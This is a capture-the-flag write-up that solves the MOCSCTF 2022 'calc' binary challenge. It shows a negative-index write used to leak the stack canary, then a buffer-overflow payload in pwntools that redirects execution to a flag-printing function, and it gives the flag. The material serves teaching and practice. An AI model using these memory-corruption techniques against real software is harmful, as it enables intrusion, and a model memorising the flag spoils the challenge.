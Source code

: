 # mocsctf2022.mocsctf.com - calc

Origin challenge link: https://mocsctf2022.mocsctf.com/challenges

You can also download challenge in my repo: [calc.zip](calc.zip)

There is 1 file in zip:

- calc

Download the file and let's start!

# 1. Find bug

First, we use `file` to check for basic information:

```
$ file calc
calc: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ea3703cc9b093c54402a5461acb0d88249d219f0, for GNU/Linux 3.2.0, not stripped
```

Wonderful! This is a 64-bit file without being stripped. This will be helpful when we debug our program. Next, we will use `checksec` to check all the security of file:

```
$ checksec calc
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

When can see that there is canary on stack and no PIE. That's all we can get for checksec. Finally, we will use ghidra to decompile the challenge file to get the flow.

Looking at all the functions, we can see that there is an interesting function named `calc_root`:

![calc_root.png](images/calc_root.png)

It will read and print out the flag for us. Very interesting! And another essential function is main().

The first thing in main() we can see is that with the first option `Set Numbers`, it get the position **without checking if it's a negative number or not** and compare with `local_d8` which containing `20`:

![main_local_d8.png](images/main_local_d8.png)
![main_input_pos.png](images/main_input_pos.png)

Then it take this pos variable, add `local_c8` and scanf():

![main_input_number.png](images/main_input_number.png)

In GDB with index 0 and 1, it will be like this:

![set_number_in_GDB.png](images/set_number_in_GDB.png)

But we can set number within (-oo ; 20] so that's the first bug.

The next option is `Calculate`, it get our input, then sum all data on stack from index 0 to our input and print out the final value:

![Calculate.png](images/Calculate.png)

So with index 1, it will work like this:

![calculate_result.png](images/calculate_result.png)

That's the data on stack:

![calculate_result_in_GDB.png](images/calculate_result_in_GDB.png)

Nothing we can get but just know how to leak stack data. 

And the last option is `Finish`, which is defined with just 24 char space:

![finish_var.png](images/finish_var.png)

But we can input upto 0x100 byte:

![finish_input.png](images/finish_input.png)

So that means **Buffer Overflow** and we have a `ret` right after our input. But there is canary on stack and how can we deal with it? We will try to leak it as the next part describes.

That's all we found. Let's move on next part: Brainstorming!

# 2. Brainstorming

We know that with the first option, we can change all the data, on stack, we want. Luckily, we can see that `local_c8`, which we `input the number` of option 1, is after `local_d8`, which contain 20 (0x14) to check if our index is larger than 20 or not

![order_of_var.png](images/order_of_var.png)

So we will change `local_d8` from 20 to a larger number so that when we get value on stack, we can get more than 20 index. Hence, we leak the canary value. And with **buffer overflow** in the `Finish` option, we control the rip to make it print out the flag.

- Summary:
  1. Leak stack canary
  2. Get flag

# 3. Exploit

Before we start our exploitation, I write those function to make our exploitation easier

<details>
<summary>Code snippet</summary>
<p>

```
def setnumber(pos, number):
	p.sendlineafter(b'choice:', b'1')
	p.sendlineafter(b'Please input the pos:', '{}'.format(pos).encode())
	p.sendlineafter(b'Please input the number:', '{}'.format(number).encode())

def calculate(many):
	p.sendlineafter(b'choice:', b'2')
	p.sendlineafter(b'How many?\n', '{}'.format(many).encode())
	# Result receive outside

def finish(data):
	p.sendlineafter(b'choice:', b'3')
	p.sendafter(b'What\'s your name?', data)
```

</p>
</details>

And now, we start!

### Stage 1: Leak stack canary

First, we will change the maximum of index from 20 to 0x100 with the `Set Number` option. Having a look in GDB, we know that the index which point to max index variable is `-2`:

![max_index_in_GDB.png](images/max_index_in_GDB.png)

So we change that with the following code:

```
setnumber(-2, 0x100)
```

Now the maximum index is 0x100, that's enough for us to exploit. Then, leaking canary will be the easy part, not easiest, because we know that `Calculate` will sum all the data on stack from index 0 to index of our input. For an easier leak, I will set all the data previous canary to 0x0 so when it `Calculate`, it just print our the stack canary.

So first, we set all the data before canary to 0x0 with the following code:

```
for i in range(23):
	setnumber(i, 0)
```

And now, we just leak the canary:

```
calculate(24)
data = int(p.recvline()[:-1].split(b':')[1])
print(data)
```

Running all of them should get us the canary:

![negative_canary.png](images/negative_canary.png)

Run several time and we get the negative canary value. Why is it negative? I thought the stack just like `0xffffffff`, there is no way it can be negative. The answer is it can be negative because:

![print_result.png](images/print_result.png)

The output format is `%lld`, which from `0` to `0x7fffffffffffffff` will be positive number, but from `0x8000000000000000` to `0xffffffffffffffff` will be negative number. So to deal with that leak, we will use [struct](https://docs.python.org/3/library/struct.html) (a module in python) to convert from that long int into hex:

```
canary = u64(struct.pack('<q', data))

# Just for printing the leak canary
log.success('Leak canary: ' + hex(canary))
```

Running the script several time and we get the negative leaked canary in hex:

![canary_leaked.png](images/canary_leaked.png)

Compared with canary in GDB:

![canary_leaked_in_GDB.png](images/canary_leaked_in_GDB.png)

And that's correct! We got the stack canary leaked! Let's move on final stage: Get flag!

### Stage 2: Get flag

With canary and **Buffer Overflow**, we now have the control of rip. Let's check where is our input placed in the last option with payload like this:

```
finish(b'A'*8)
```

![finish_input_placed.png](images/finish_input_placed.png)

Our new stack canary is `0xa2c6a51796813300` (Cause I re-run it :D). We can see that our input is just near the canary. Remember this order: `canary -> rbp -> rip` so that our final payload will be like this:

```
payload = b''
payload += b'A'*0x18                      # Pad to canary
payload += p64(canary)                    # Canary
payload += b'B'*0x8                       # Fake rbp
payload += p64(exe.sym['calc_root'])      # rip
finish(payload)
```

Running that script and we get the flag. 

Full code: [solve.py](solve.py)

# 4. Get flag

![get_flag.png](images/get_flag.png)

Flag is `MOCSCTF{3bbbbe8e-18c6-4da3-8bf9-fe38f154426c}`